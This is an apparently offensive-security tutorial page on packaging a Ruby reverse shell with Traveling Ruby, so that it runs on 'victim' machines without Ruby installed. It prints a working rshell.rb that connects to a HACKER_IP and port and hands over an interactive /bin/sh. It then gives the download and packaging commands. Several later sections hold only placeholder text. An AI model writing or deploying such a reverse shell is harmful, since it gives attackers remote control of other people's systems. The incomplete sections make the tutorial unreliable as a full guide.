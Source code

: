 # Module 0x2 | System KungFu

## Packaging

Many questions about building a standalone application that doesn't require Ruby to be pre-installed on the system. Of-course, due attacking machine you cant grantee that ruby is installed on the target system. So here we will demonstrate some ways to do that.


### Traveling-ruby
From official site "*Traveling Ruby is a project which supplies self-contained, "portable" Ruby binaries: Ruby binaries that can run on any Linux distribution and any OS X machine. It also has Windows support (with some caveats). This allows Ruby app developers to bundle these binaries with their Ruby app, so that they can distribute a single package to end users, without needing end users to first install Ruby or gems.*"



#### Preparation 
```
mkdir rshell
cd rshell
```
- Create your application -in our case, reverse shell- in "rshell" folder

**rshell.rb**
```ruby
#!/usr/bin/env ruby
require 'socket'
if ARGV.size < 2
  puts "ruby #{__FILE__}.rb [HACKER_IP  HACKER_PORT]\n\n"
  exit 0 
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

- Test it 

```
ruby rshell.rb 
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT]
```



##### Creating package directories
The next step is to prepare packages for all the target platforms, by creating a directory each platform, and by copying your app into each directory. (Assuming that your application could differ from OS to another)

```
mkdir -p rshell-linuxx86/lib/app
cp rshell.rb rshell-linuxx86/lib/app/

mkdir -p rshell-linuxx86_64/lib/app
cp rshell.rb rshell-linuxx86_64/lib/app/

mkdir -p rshell-osx/lib/app/
cp rshell.rb rshell-osx/lib/app/
```

Next, create a `packaging` directory and download Traveling Ruby binaries for each platform into that directory. Then extract these binaries into each packaging directory. You can find a list of binaries at the Traveling Ruby Amazon S3 bucket. For faster download times, use the CloudFront domain "http://d6r77u77i8pq3.cloudfront.net". In this tutorial we're extracting version 20141215-2.1.5.

```
mkdir packaging
cd packaging
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-osx.tar.gz
cd ..

mkdir rshell-linuxx86/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz -C rshell-linuxx86/lib/ruby
mkdir rshell-linuxx86_64/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz -C rshell-linuxx86_64/lib/ruby
mkdir rshell-osx/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-osx.tar.gz -C rshell-osx/lib/ruby
```

##### Quick sanity testing

```
s
```


##### Creating a wrapper script
```
s
```

##### Finalizing packages
```
```


##### Automating the process

```ruby
s
```


##### On Victim Machine

```
s
```


#### mruby
https://www.youtube.com/watch?v=OvuZ8R4Y9xA

https://github.com/hone/mruby-cli

https://github.com/hone/mruby-cli/releases

https://docs.docker.com/installation/

https://docs.docker.com/compose/install/

